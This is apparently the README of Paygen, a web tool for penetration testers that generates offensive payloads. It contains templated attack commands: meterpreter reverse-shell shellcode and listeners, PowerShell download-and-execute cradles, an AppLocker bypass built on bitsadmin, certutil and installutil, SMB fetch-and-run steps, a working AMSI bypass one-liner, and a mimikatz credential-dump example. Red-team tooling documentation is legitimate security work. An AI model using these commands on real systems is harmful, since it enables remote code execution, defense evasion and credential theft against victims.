

# Paygen

> Modern web-based framework for offensive payload generation


Paygen is a web-based payload generation framework for security researchers and penetration testers. It provides a modern web interface for creating and customizing offensive payloads with built-in MITRE ATT&CK mappings, effectiveness ratings, and advanced preprocessing pipelines.

---

## Screenshots

### Web Interface


---

## Features

- 🌐 **Modern Web Interface** - Clean, responsive design with real-time validation
- 📋 **Recipe System** - YAML-based payload definitions with rich metadata
- 🔄 **Preprocessing** - Chain XOR/AES encryption, compression, encoding
- 🎯 **Shellcode Configuration** - Centralized shellcode generation with reusable configs and automatic listener generation
- 🔀 **Preprocessing Options** - Select between multiple shellcode generation methods (msfvenom, donut, custom)
- 🎯 **MITRE ATT&CK** - Built-in tactic and technique mappings
- 📊 **Effectiveness** - HIGH/MEDIUM/LOW evasion ratings
- 📜 **History** - Track all builds with parameters and launch instructions
  - 🔄 **Instant Regenerate** - Replay previous payloads with same parameters
  - ✏️ **Modify & Regenerate** - Load parameters into form for editing before regeneration
- ⚙️ **Settings** - Configure default values (LHOST) persisted in browser
- ⚡ **Flexible** - Template-based (C#, PS1) and command-based (msfvenom)
- 🔍 **Search** - Quickly find recipes with built-in search functionality
- ✅ **Validation** - Real-time parameter validation (IP, port, paths, hex)
- 🎛️ **Build Options** - Remove comments, console output, strip binaries
- 🔐 **PowerShell Obfuscation** - Integrated psobf with 3 levels and automatic failover
- 📋 **Command Transparency** - View compilation and shellcode generation commands in build output

---

## Installation

```bash
# Clone repository
git clone https://github.com/Hailst0rm1/paygen.git
cd paygen

# Install dependencies
pip install -r requirements.txt

# Run Web Interface
python -m src.main
# Then open http://localhost:1337 in your browser
```

### Requirements

- Python 3.10+
- Optional compilers and tools:
  - `msfvenom` - For generating shellcode payloads
  - `mcs` (Mono C# compiler) - For compiling C# templates
  - `gcc`/`mingw-w64` - For compiling C/C++ code
  - `psobf` - PowerShell obfuscation tool ([TaurusOmar/psobf](https://github.com/TaurusOmar/psobf))

#### Installing psobf

The `psobf` tool is required for PowerShell obfuscation features:

```bash
# Install from source
git clone https://github.com/TaurusOmar/psobf.git
cd psobf
# Follow installation instructions from the repository
# Ensure 'psobf' is available in your PATH
```

---

## Quick Start

### Web Interface

```bash
# 1. Launch web server
python -m src.main

# 2. Open browser to http://localhost:1337

# 3. Click any recipe to view details
# 4. Click "Generate" to configure parameters
# 5. Use "/" to search recipes
# 6. Click "History" to view past builds
```

---


## Recipe Format

Recipes are YAML files with 4 sections:

```yaml
meta:
  name: "Recipe Name"
  category: "Process Injection"
  description: "What this payload does"
  effectiveness: high # low, medium, high
  mitre:
    tactic: "TA0005 - Defense Evasion"
    technique: "T1055 - Process Injection"
  artifacts:
    - "Observable behavior 1"
    - "Observable behavior 2"

parameters:
  - name: "lhost"
    type: "ip"
    description: "Attacker IP"
    required: true
  - name: "lport"
    type: "port"
    default: 4444
    required: true

preprocessing:
  - type: "command"
    name: "generate_shellcode"
    command: "msfvenom -p windows/x64/... LHOST={{ lhost }} -f raw"
    output_var: "shellcode"
  
  # Option type: Choose between multiple methods
  - type: "option"
    name: "Select shellcode generation method"
    options:
      - type: "command"
        name: "Msfvenom shellcode"
        command: "msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{ lhost }} LPORT={{ lport }} -f raw"
        output_var: "raw_shellcode"
      - type: "command"
        name: "Donut shellcode"
        command: "donut -f {{ executable_path }} -a 2"
        output_var: "raw_shellcode"
  
  - type: "script"
    name: "encrypt"
    script: "aes_encrypt.py"
    args:
      data: "{{ shellcode }}"
    output_var: "encrypted"

output:
  type: "template" # or "command"
  template: "injector.cs"
  compile:
    enabled: true
    command: "mcs -out:{{ output_path }}/{{ output_file }} {{ source_file }}"
  launch_instructions: |
    # Start listener
    msfconsole -x "use exploit/multi/handler; ..."
```

---

## Shellcode Configuration System

Paygen includes a centralized shellcode configuration system that simplifies recipe creation and enables automatic listener generation.

### Overview

Instead of defining shellcode generation methods inline in each recipe, you can now define them once in `shellcodes.yaml` and reference them across multiple recipes. This provides:

- **Reusability** - Define shellcode methods once, use in multiple recipes
- **Cleaner Recipes** - No more nested option blocks with repeated parameter definitions
- **Automatic Listeners** - Listener commands are automatically generated and inserted in launch instructions
- **Type Safety** - Full parameter validation using the existing validation system
- **Dynamic Parameters** - Shellcode-specific parameters appear dynamically in the GUI

### Configuration File

Create `shellcodes.yaml` in your paygen directory:

```yaml
- name: "Msfvenom Meterpreter Reverse TCP"
  parameters:
    - name: "lhost"
      type: "ip"
      description: "Attacker/C2 server IP address"
      required: true
    - name: "lport"
      type: "port"
      description: "Listener port"
      required: true
      default: 443
  listener: "msfconsole -x \"use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST {{ lhost }}; set LPORT {{ lport }}; set ExitOnSession false; exploit -j\""
  shellcode: "msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{ lhost }} LPORT={{ lport }} EXITFUNC=thread -f raw"

- name: "Donut - EXE to Shellcode"
  parameters:
    - name: "executable_path"
      type: "file"
      description: "Path to the executable file"
      required: true
    - name: "executable_parameters"
      type: "string"
      description: "Command-line parameters"
      required: false
      default: ""
  shellcode: "donut -i {{ executable_path }} -p \"{{ executable_parameters }}\" -a 2 -o /tmp/donut_payload.bin && cat /tmp/donut_payload.bin"
```

**Fields:**
- `name` - Display name shown in the GUI dropdown
- `parameters` - List of parameters (supports all types: ip, port, string, file, path, hex, bool, integer, choice)
- `shellcode` - Command template using Jinja2 syntax (`{{ variable }}`)
- `listener` - (Optional) Listener command template for automatic generation

### Recipe Usage

Use the `shellcode` preprocessing type in recipes:

```yaml
preprocessing:
  - type: "shellcode"
    name: "Select shellcode generation method"
    output_var: "raw_shellcode"
  
  # Continue with other preprocessing steps
  - type: "script"
    name: "xor_encryption"
    script: "xor_encrypt.py"
    args:
      data: "{{ raw_shellcode }}"
    output_var: "encrypted"
```

**That's it!** The GUI will automatically:
1. Load available shellcodes from `shellcodes.yaml`
2. Display them in a dropdown
3. Show shellcode-specific parameters when one is selected
4. Validate parameters in real-time
5. Generate the shellcode command
6. Insert listener instructions if defined

### Automatic Listener Generation

When a shellcode configuration includes a `listener` field, it's automatically rendered and inserted at the top of launch instructions:

```markdown
# Listener

```shell
msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 192.168.1.100; set LPORT 443; set ExitOnSession false; exploit -j"
```

# [Rest of launch instructions...]
```

### Example

See `recipes/shellcode_example.yaml` for a complete example using the new shellcode type.

### Configuration Path

Set the shellcode configuration path in `~/.config/paygen/config.yaml`:

```yaml
shellcodes_config: "~/Documents/Tools/paygen/shellcodes.yaml"
```

### Advanced Shellcode Features

#### GUID Variable Support

Use `{{guid}}` in shellcode commands for unique file names:

```yaml
- name: "Msfvenom shellcode"
  shellcode: msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{ lhost }} LPORT={{ lport }} -f raw -o /tmp/shellcode-{{ guid }}.bin
  parameters:
    - name: "lhost"
      type: "ip"
      required: true
```

A unique GUID is generated for each build, preventing file collisions.

#### Option Parameters

Use `option` type for dropdown selections:

```yaml
parameters:
  - name: "format"
    type: "option"
    description: "Output format for shellcode"
    required: true
    options: ["raw", "csharp", "python", "c", "hex"]
    default: "raw"
```

This creates a dropdown in the UI. Use as: `-f {{ format }}`

---

## Web Interface Features

### Settings

Click the **⚙️ Settings** button (top-right) to configure:

- **Default LHOST** - Automatically pre-fills all LHOST parameters (recipes, shellcodes, cradles)
- Settings are saved in browser localStorage (per-device)

### History Management

The **📜 History** button provides powerful build tracking:

- **Instant Regenerate** - Click "Regenerate" to replay a payload with identical parameters
- **Modify & Regenerate** - Click "Modify & Regenerate" to load parameters into the form for editing before regeneration
- **Build Options Display** - View all language-specific and build options used for each generation
- **Lazy Loading** - Fast performance even with large history files (100 recent builds shown)

### Command Transparency

Build output shows exact commands executed:

- **Shellcode Generation** - View msfvenom/sliver commands with all parameters
- **Compilation** - See compiler commands (mcs, gcc) with flags and paths

This helps verify parameters are correctly applied and aids debugging.

---

## Built-in Preprocessors

Located in `preprocessors/`:

- `xor_encrypt.py` - XOR encryption with auto-key generation
- `aes_encrypt.py` - AES-256-CBC encryption
- `base64_encode.py` - Base64 encoding
- `compress.py` - Gzip compression
- `format_csharp.py` - Format bytes as C# arrays
- `caesar_cipher.py` - Caesar cipher
- `hex_to_bytes.py` - Convert hex strings to raw bytes

---

## Conditional Parameters

Parameters can be conditionally required based on preprocessing option selection using the `required_for` field:

```yaml
parameters:
  - name: "lhost"
    type: "ip"
    description: "Attacker IP address"
    required_for: "Msfvenom shellcode"  # Only required when this option is selected
    required: true
  
  - name: "executable_path"
    type: "file"
    description: "Path to executable for donut"
    required_for: "Donut shellcode"  # Only required when this option is selected
    required: true
```

When using conditional parameters:
- The parameter is only validated and displayed when its corresponding preprocessing option is selected
- Default values are automatically restored when switching between options
- Parameters without `required_for` are always shown and validated

---

## Directory Structure

```
paygen/
├── src/
│   ├── core/           # Config, recipes, validation, building
│   ├── web/            # Web interface (Flask + static assets)
│   │   ├── app.py      # Flask application & REST API
│   │   ├── static/     # CSS, JavaScript
│   │   └── templates/  # HTML templates
│   ├── main.py         # Web interface entry point
│   └── utils/          # Utilities
├── recipes/            # Recipe YAML files (tracked in git)
├── templates/          # Source templates (tracked in git)
├── preprocessors/      # Processing scripts (tracked in git)
├── output/             # Generated payloads (gitignored)
├── tests/              # Test suite (37 tests)
├── screenshots/        # UI screenshots
└── docs/               # Documentation
```

---

## Configuration

Located at `~/.config/paygen/config.yaml`:

```yaml
# Directories
recipes_dir: "~/Documents/Tools/paygen/recipes"
templates_dir: "~/Documents/Tools/paygen/templates"
preprocessors_dir: "~/Documents/Tools/paygen/preprocessors"
output_dir: "~/Documents/Tools/paygen/output"

# Configuration files
ps_obfuscation_yaml: "~/Documents/Tools/paygen/ps-obfuscation.yaml"
ps_features_yaml: "~/Documents/Tools/paygen/ps-features.yaml"
shellcodes_config: "~/Documents/Tools/paygen/shellcodes.yaml"

# Build options
keep_source_files: false
show_build_debug: false
remove_comments: true # Strip comments from source before compilation
strip_binaries: true # Remove debug symbols from compiled binaries

# Web Interface settings
web_host: "0.0.0.0" # Bind to all interfaces
web_port: 1337 # Web server port
web_debug: false # Flask debug mode
```

### Web Interface Features

The web interface provides:

- **Real-time Validation**: Parameters validated as you type (IP addresses, ports, paths, hex values)
- **Syntax Highlighting**: Code preview with language-specific highlighting (C#, PowerShell, Python, etc.)
- **Search**: Press `/` to quickly find recipes by name or category
- **Build Progress**: Real-time build status with step-by-step progress
- **Build Options**: Checkboxes to remove comments, console output, or strip binaries
- **PowerShell Obfuscation**: Automatic obfuscation with 3 levels and intelligent failover
- **Standalone PowerShell Obfuscator**: Dedicated tool for obfuscating individual PowerShell commands
- **Launch Instructions Obfuscation**: Obfuscate PowerShell code blocks in launch instructions
- **History Management**: View all builds, detailed parameters, and delete individual entries
- **Launch Instructions**: Formatted markdown with syntax-highlighted code blocks and copy buttons
- **Global Settings**: Configure default values (LHOST) that persist across sessions
- **Responsive Design**: Clean 3-panel layout with Catppuccin Mocha theme

### Global Settings

The web interface includes a **Settings** panel (⚙️ icon in header) for configuring default values that persist across browser sessions:

#### Default LHOST

Set a global default LHOST (attacker IP) that automatically populates all LHOST-related fields:

**How to Configure:**
1. Click the **⚙️ Settings** button in the header
2. Enter your default LHOST (e.g., `192.168.1.100`)
3. Click **Save Settings**

**Where It's Applied:**
- Recipe parameters named `lhost` (case-insensitive)
- Shellcode parameters (`lhost` in msfvenom configs, etc.)
- Download cradle LHOST fields (PowerShell and C#)

**Behavior:**
- Stored in browser's `localStorage` (persists across sessions)
- Only applied if fields are empty (won't override manual entries)
- Can be cleared anytime by removing the value and saving

**Template Variables:**
You can also reference the global LHOST in parameter defaults using template syntax:

```yaml
parameters:
  - name: "url"
    type: "string"
    description: "URL hosting the payload"
    required: true
    default: "http://{{ global.lhost }}/payload.bin"
```

When the form loads:
- If global LHOST is set to `192.168.1.100` → `http://192.168.1.100/payload.bin`
- If global LHOST is not set → `http://127.0.0.1/payload.bin` (defaults to localhost)

**Example Workflow:**
```bash
# 1. Set global LHOST once
Settings → Default LHOST: 192.168.1.100 → Save

# 2. Generate multiple payloads
All LHOST fields auto-fill with 192.168.1.100
Shellcode configs use 192.168.1.100
Download cradles use 192.168.1.100

# 3. Override for specific payload
Manually change LHOST to 10.0.0.5 (overrides default)
```

This saves time when testing against the same target network while maintaining flexibility for different scenarios.

### Standalone PowerShell Obfuscator

The web interface includes a dedicated PowerShell obfuscation tool, accessible via the **"Obfuscate PS"** button (to the left of History):
- **Quick Access**: One-click access from the main header
- **Simple Interface**: 
  - Large text area for entering PowerShell commands
  - Dropdown menu for obfuscation level selection (High/Medium/Low)
  - Green "Generate" button to process the command
- **Real-time Processing**: Shows loading spinner while obfuscating
- **Syntax-Highlighted Output**: Obfuscated PowerShell displayed with proper highlighting
- **One-Click Copy**: Copy button to instantly copy obfuscated code to clipboard
- **Same Obfuscation Levels**: Uses identical logic as recipe-based obfuscation (High/Medium/Low)
- **Automatic Failover**: If a level fails, automatically tries the next lower level
- **No Recipe Required**: Obfuscate standalone commands without creating a full payload

**Use Cases**:
- Quickly obfuscate PowerShell one-liners before execution
- Test obfuscation on custom commands
- Prepare download cradles and execution commands
- Obfuscate scripts for manual deployment

**Requirements**: `psobf` tool must be installed (see [Installation](#installing-psobf))

### PowerShell Obfuscation

#### Template Obfuscation

When building PowerShell (.ps1) templates, you can enable automatic obfuscation:

- **Enabled by default** - Checkbox is pre-selected for PowerShell recipes
- **3 Obfuscation Levels**:
  - **High**: Maximum obfuscation with string encryption (XOR), identifier obfuscation, control flow obfuscation, dead code injection, and code fragmentation
  - **Medium**: Balanced obfuscation with string encryption, dead code, and moderate fragmentation
  - **Low**: Minimal obfuscation for quick processing
- **Automatic Failover**: If a level fails (e.g., complex scripts), automatically tries the next lower level
- **Build Progress**: Shows obfuscation steps in real-time during payload generation
- **Requires**: `psobf` tool installed and available in PATH (see [Installation](#installing-psobf))

#### Launch Instructions Obfuscation

Obfuscate PowerShell code blocks within launch instructions across all recipe types:

- **Disabled by default** - Global option available for any recipe with PowerShell in launch instructions
- **Same 3 Levels**: High, Medium, Low with automatic failover
- **Applied to Code Blocks**: Automatically detects and obfuscates all PowerShell code blocks in launch instructions
- **Universal**: Works with any recipe type (C#, Python, etc.) that includes PowerShell commands in launch instructions

Obfuscation helps evade signature-based detection and makes reverse engineering more difficult.

### C# Obfuscation

#### Name Obfuscation

When building C# (.cs) templates, you can enable automatic name obfuscation:

- **Enabled by default** - Checkbox is pre-selected for C# recipes
- **Function & Variable Replacement**: Replaces all function and variable names with innocuous-looking identifiers
- **Innocuous Names**: Uses nature-themed and common words (forest, lake, mountain, table, chair, etc.) and numbered variants (var1, obj1, temp1)
- **Smart Filtering**: 
  - Preserves C# keywords and reserved words
  - Keeps .NET framework types and methods (Console, WriteLine, Marshal, etc.)
  - Skips private members (starting with underscore)
  - Maintains compatibility with P/Invoke declarations
- **Applied Before Compilation**: Obfuscation runs before the compilation step
- **Build Progress**: Shows replacement count in real-time during payload generation

Example replacements:
- `shellcode` → `forest`
- `processHandle` → `lake`
- `allocatedMemory` → `mountain`
- `bufferSize` → `var1`

This makes reverse engineering more difficult by replacing meaningful variable and function names with benign-looking identifiers that don't reveal the code's purpose.

### AMSI Bypass Integration

Paygen provides modular AMSI (Antimalware Scan Interface) bypass capabilities to help evade Windows Defender and other security products:

#### Template AMSI Bypass

For PowerShell (.ps1) templates, inject AMSI bypass code **before** obfuscation:

- **Disabled by default** - Optional checkbox for PowerShell recipes
- **Dropdown Selection**: Choose from built-in or custom bypass methods
- **Inserted at Top**: Bypass code is prepended to the PowerShell template
- **Pre-Obfuscation**: Applied before any PowerShell obfuscation for maximum evasion

#### Launch Instructions AMSI Bypass

For PowerShell commands in launch instructions across any recipe type:

- **Disabled by default** - Global option for recipes with PowerShell in launch instructions
- **Dropdown Selection**: Same bypass methods available as template option
- **Smart Injection**: 
  - Adds "# AMSI Bypass" section at the top of launch instructions
  - For one-liner bypasses, also prepends to download cradles (DownloadString, DownloadFile, etc.)
  - Prepends with semicolon separator for inline execution
  - Adds marker text to indicate bypassed commands
- **Pre-Obfuscation**: Applied before launch instruction obfuscation

#### Built-in Bypass Methods

Paygen includes two proven AMSI bypass techniques:

1. **AmsiInitialize**: Sets `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`
2. **amsiContext**: Memory patching technique using `[Runtime.InteropServices.Marshal]::Copy()`

#### Custom Bypass Methods

Add your own bypass techniques to `templates/amsi_bypasses/`:

1. Create a `.ps1` file with your bypass code (single line or multi-line)
2. Filename without extension becomes the display name (underscores converted to spaces)
3. Example: `my_custom_bypass.ps1` → appears as "my custom bypass" in dropdown

```powershell
# templates/amsi_bypasses/my_custom_bypass.ps1
# Your custom AMSI bypass code here
[System.Reflection.Assembly]::Load(...) | Out-Null
```

Custom bypasses are automatically loaded and available in both template and launch instruction options.

#### Bypass Execution Order

When multiple evasion techniques are enabled, they execute in this order:

1. **AMSI Bypass** (template or launch instructions)
2. **PowerShell Obfuscation** (if enabled)

This ensures bypass code is in place before obfuscation layers are applied.

---

## Testing

```bash
# Run all tests
pytest

# Run specific test file
pytest tests/test_recipes.py -v

# Run with coverage
pytest --cov=src tests/
```

Current test coverage: 37 tests passing

---

## Creating Custom Recipes

### Template-Based Recipe

1. Create template in `templates/`:

```csharp
// templates/my_payload/injector.cs
using System;

class MyPayload {
    static byte[] encrypted = { {{ encrypted_shellcode }} };
    static byte[] key = { {{ aes_key }} };

    static void Main() {
        // Your payload logic
    }
}
```

2. Create recipe in `recipes/`:

```yaml
meta:
  name: "My Custom Payload"
  category: "Custom"
  effectiveness: high

parameters:
  - name: "lhost"
    type: "ip"
    required: true

preprocessing:
  - type: "command"
    name: "gen_shellcode"
    command: "msfvenom -p windows/x64/... LHOST={{ lhost }} -f raw"
    output_var: "shellcode"

  - type: "script"
    name: "encrypt"
    script: "aes_encrypt.py"
    args:
      data: "{{ shellcode }}"
    output_var: "encrypted"

output:
  type: "template"
  template: "my_payload/injector.cs"
  compile:
    enabled: true
    command: "mcs -out:{{ output_path }}/{{ output_file }} {{ source_file }}"
```

### Custom Preprocessor

Create in `preprocessors/`:

```python
#!/usr/bin/env python3
import sys
import json
import base64

def main():
    args = json.load(sys.stdin)
    data = base64.b64decode(args['data'])

    # Your processing logic
    result = process(data)

    output = {
        'processed': base64.b64encode(result).decode(),
        'size': len(result)
    }
    print(json.dumps(output))

def process(data):
    # Custom processing
    return data

if __name__ == "__main__":
    main()
```

---

## Security & Ethics

⚠️ **Important**: This tool generates malicious payloads for authorized security testing ONLY.

**Authorized Use:**

- ✅ Penetration testing with written authorization
- ✅ Red team operations
- ✅ Security research in controlled environments
- ✅ Educational purposes

**Never Use For:**

- ❌ Unauthorized access
- ❌ Malicious activity
- ❌ Illegal operations

**OpSec:**

- `output/` directory is gitignored (NEVER commit payloads)
- `config.yaml` contains local paths (gitignored)
- `history.json` contains sensitive build data (gitignored)

---

## Troubleshooting

### "Compiler not found"

```bash
# Install Mono (C# compiler)
sudo apt install mono-mcs  # Debian/Ubuntu
sudo pacman -S mono        # Arch

# Install msfvenom
sudo apt install metasploit-framework
```

### "Permission denied" on payload

```bash
chmod +x output/payload.exe
```

### Template variables not rendering

Ensure preprocessing `output_var` matches template placeholder:

```yaml
# Recipe
output_var: "encrypted_data"

# Template
{{ encrypted_data }}
```

---

## YAML Configuration System

Paygen uses YAML configuration files to define PowerShell obfuscation methods, AMSI bypasses, and download cradles. These files provide flexibility and easy customization without modifying source code.

### Configuration Files

Two main YAML configuration files control PowerShell features:

- **ps-obfuscation.yaml** - Defines PowerShell obfuscation methods
- **ps-features.yaml** - Defines AMSI bypasses and download cradles

These files are located in the paygen root directory and can be customized to add new methods or modify existing ones.

### ps-obfuscation.yaml

Defines obfuscation methods with templated command strings for the `psobf` tool.

**Format:**
```yaml
- name: Method Name
  command: psobf command template with variables
```

**Available Variables:**

| Variable | Description | Example |
|----------|-------------|---------|
| `{{ temp }}` | Input file path (temporary file) | `/tmp/script_abc123.ps1` |
| `{{ out }}` | Output file path (obfuscated result) | `/tmp/script_obf_xyz789.ps1` |
| `{{ hex_key }}` | Random hex string for encryption | `A1B2C3D4E5F6` |
| `{{ string_dict }}` | Random number 0-100 for string dictionary | `75` |
| `{{ dead_code }}` | Random number 0-100 for dead code injection | `50` |
| `{{ seed }}` | Random number 0-10000 for randomization seed | `4832` |

**Example:**
```yaml
- name: High - Maximum obfuscation
  command: psobf -i {{ temp }} -o {{ out }} -q -level 5 -pipeline "hex_aes:{{ hex_key }}|string_dict:{{ string_dict }}|dead_code:{{ dead_code }}" -seed {{ seed }}

- name: Medium - Balanced obfuscation
  command: psobf -i {{ temp }} -o {{ out }} -q -level 3 -pipeline "string_dict:{{ string_dict }}|dead_code:{{ dead_code }}" -seed {{ seed }}

- name: Low - Light obfuscation
  command: psobf -i {{ temp }} -o {{ out }} -q -level 1 -pipeline "string_dict:{{ string_dict }}" -seed {{ seed }}
```

### ps-features.yaml

Defines AMSI bypasses and download cradles with optional obfuscation control.

**Format:**
```yaml
- name: Feature Name
  type: amsi | cradle-ps1 | cradle-exe | cradle-dll
  no-obf: true | false  # Optional, default: false
  code: |
    PowerShell code or template
  # OR
  command: |
    Shell command to execute (output becomes the code)
```

**Code vs Command:**

Features can use `code`, `command`, or both:

- **code** - Static template with variable substitution
  - Content is used directly as output
  - Variables like `{{ url }}`, `{{ args }}` are replaced
  - Conditional blocks `{{ if args }}...{{ fi }}` are processed
  - No command execution

- **command** - Dynamic generation via shell execution
  - Command is executed, stdout becomes the code
  - Variables are replaced BEFORE execution
  - Useful for tools like CradleCrafter, Invoke-Obfuscation, etc.
  - Errors show command and stderr for debugging

- **command + code** - Command for setup, code for output
  - Command is executed for side effects (e.g., creating files)
  - Command output is ignored
  - The `code` field is used as the cradle output
  - Useful for encoding payloads, generating certificates, etc.

**Types:**

- **amsi** - AMSI bypass code to inject at the beginning of PowerShell scripts
- **cradle-ps1** - PowerShell cradle for downloading PS1 scripts
- **cradle-exe** - PowerShell cradle for downloading EXE files
- **cradle-dll** - PowerShell cradle for downloading DLL files

**Available Variables:**

| Variable | Description | Example |
|----------|-------------|---------|
| `{{ url }}` | Base URL constructed from lhost/lport (without filename) - only if used in template | `http://192.168.1.100:8080` or `https://192.168.1.100` |
| `{{ lhost }}` | Listening host IP or domain | `192.168.1.100` |
| `{{ lport }}` | Listening port | `8080` or `443` |
| `{{ output_file }}` | Output filename from payload parameters | `payload.exe` |
| `{{ output_path }}` | Full path to the output directory | `/home/user/payloads` |
| `{{ namespace }}` | .NET namespace for assembly loading | `MyApp` |
| `{{ class }}` | .NET class name containing entry point | `Program` |
| `{{ entry_point }}` | Entry point method/function name | `Main` or `DllMain` |
| `{{ args }}` | Command-line arguments for assembly invocation | `arg1 arg2` |

**Note:** All variables are available for use in cradle templates. `{{ url }}` is only constructed if it's actually used in the template, allowing for protocols like SMB that don't use HTTP/HTTPS URLs.

**URL Construction Logic:**

The `{{ url }}` variable contains only the base URL without the output filename (automatically constructed only if used):

- Port 80: `http://{{ lhost }}`
- Port 443: `https://{{ lhost }}`
- Other ports: `http://{{ lhost }}:{{ lport }}`

In YAML cradle templates, combine `{{ url }}` with `{{ output_file }}` like: `{{ url }}/{{ output_file }}`

**Direct Host/Port Access:**

For protocols that don't use HTTP/HTTPS URLs (like SMB), use `{{ lhost }}` and `{{ lport }}` directly:

```yaml
# SMB cradle example
- name: SMB Copy-Item (EXE)
  type: cradle-exe
  code: |
    Copy-Item "\\{{ lhost }}\share\{{ output_file }}" "$env:TEMP\{{ output_file }}";
    Start-Process "$env:TEMP\{{ output_file }}"
```

**Assembly Loading Variables:**

The optional variables `{{ namespace }}`, `{{ class }}`, `{{ entry_point }}`, and `{{ args }}` are used for advanced scenarios like in-memory assembly loading and invocation.

**Auto-Extraction Behavior:**
- When these variables are present in a cradle, paygen automatically extracts the values from the compiled C# payload
- If C# obfuscation is enabled, the extracted names will be the obfuscated versions (e.g., "forest", "tree")
- A checkbox allows manual override to specify custom values (disabled when C# obfuscation is active)
- The `{{ args }}` variable always requires manual input as it's runtime-specific

**Variable Description:**
- `{{ namespace }}` - .NET namespace of the compiled assembly (e.g., "MyApp")
- `{{ class }}` - Class name containing the entry point (e.g., "Program")
- `{{ entry_point }}` - Entry point method name (e.g., "Main", "DllMain")
- `{{ args }}` - Command-line arguments for the payload (space-separated)

**Conditional Blocks:**

Variables can be wrapped in conditional blocks to avoid empty values in the generated code. Use the syntax `{{ if varname }}content{{ fi }}`:

- If the variable has a value, the content is included (without the markers)
- If the variable is empty or not provided, the entire block is removed

**Example:**
```yaml
# Template with conditional args
mimikatz {{ if args }}"{{ args }}"{{ fi }} "privilege::debug"

# With args="sekurlsa::logonpasswords":
# Output: mimikatz "sekurlsa::logonpasswords" "privilege::debug"

# Without args (empty):
# Output: mimikatz "privilege::debug"
```

This avoids generating commands with empty quotes like `mimikatz "" "privilege::debug"` which could break functionality. Multiple consecutive spaces are automatically cleaned up to a single space.

**Example - Basic HTTP Download:**
```yaml
- name: IWR-IEX (Standard)
  type: cradle-ps1
  code: |
    IWR -Uri "{{ url }}/{{ output_file }}" -UseBasicParsing | IEX
```

**Example - Assembly Loading with Arguments:**
```yaml
- name: Assembly-Load-Invoke (EXE)
  type: cradle-exe
  code: |
    $data = (New-Object System.Net.WebClient).DownloadData('{{ url }}/{{ output_file }}');
    $assem = [System.Reflection.Assembly]::Load($data);
    [{{ namespace }}.{{ class }}]::{{ entry_point }}("{{ args }}".Split())
```

**Example - Command + Code (AppLocker Bypass):**
```yaml
- name: AppLocker Bypass - InstallUtil+Bitsadmin (EXE)
  type: cradle-exe
  no-obf: false
  command: |
    { echo "-----BEGIN CERTIFICATE-----"; base64 -w 64 {{ output_path }}/{{ output_file }}; echo "-----END CERTIFICATE-----"; } > {{ output_path }}/file.txt
  code: |
    cmd.exe /c del C:\Windows\Tasks\enc.txt && del c:\Windows\Tasks\a.exe && bitsadmin /Transfer theJob {{ url }}/file.txt C:\Windows\Tasks\enc.txt && certutil -decode C:\Windows\Tasks\enc.txt C:\Windows\Tasks\a.exe && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\a.exe
```
*This example runs a command to base64-encode the payload and wrap it in certificate format, then uses the code field for the download/decode/execute cradle.*

**Example - DLL with Entry Point:**
```yaml
- name: DownloadFile (DLL)
  type: cradle-dll
  code: |
    (New-Object System.Net.WebClient).DownloadFile("{url}/{output_file}", "$env:TEMP\{output_file}");
    rundll32.exe "$env:TEMP\{output_file}",{entry_point}
```

**Example - SMB Cradle (Using {{ lhost }} directly):**
```yaml
- name: SMB Copy-Item (EXE)
  type: cradle-exe
  no-obf: false
  code: |
    Copy-Item "\\{{ lhost }}\share\{{ output_file }}" "$env:TEMP\{{ output_file }}";
    Start-Process "$env:TEMP\{{ output_file }}"

- name: SMB Net Use + Copy (EXE)
  type: cradle-exe
  no-obf: false
  code: |
    net use \\{{ lhost }}\share /user:guest "";
    copy \\{{ lhost }}\share\{{ output_file }} $env:TEMP\{{ output_file }};
    Start-Process "$env:TEMP\{{ output_file }}";
    net use \\{{ lhost }}\share /delete
```

*SMB cradles use `{{ lhost }}` directly instead of `{{ url }}` since SMB uses UNC paths. The `{{ lport }}` variable is also available but typically not needed for SMB (port 445).*

This gives you full control over how the URL is constructed and how assemblies are loaded in each cradle template.

**Example - Command-Based Cradle (CradleCrafter):**
```yaml
- name: CradleCrafter - PsComMsXml
  type: cradle-ps1
  no-obf: false
  command: |
    pwsh -Command "Invoke-CradleCrafter -Url '{url}/{output_file}' -Command 'MEMORY,PSCOMMSXML,REARRANGE,1' {if args}-PostCradleCommand '{args}'{fi} -Quiet"
```

In this example:
- The `command` field executes `pwsh` with CradleCrafter
- Variables `{url}`, `{output_file}`, `{args}` are replaced before execution
- Conditional block `{if args}...{fi}` adds `-PostCradleCommand` only if args provided
- The stdout from the command becomes the cradle code
- If the command fails, error shows exit code, command, and stderr

**no-obf Flag:**

When set to `true`, the obfuscation dropdown is hidden for this method in the web UI. Use this for methods that don't work well with obfuscation or are already obfuscated.

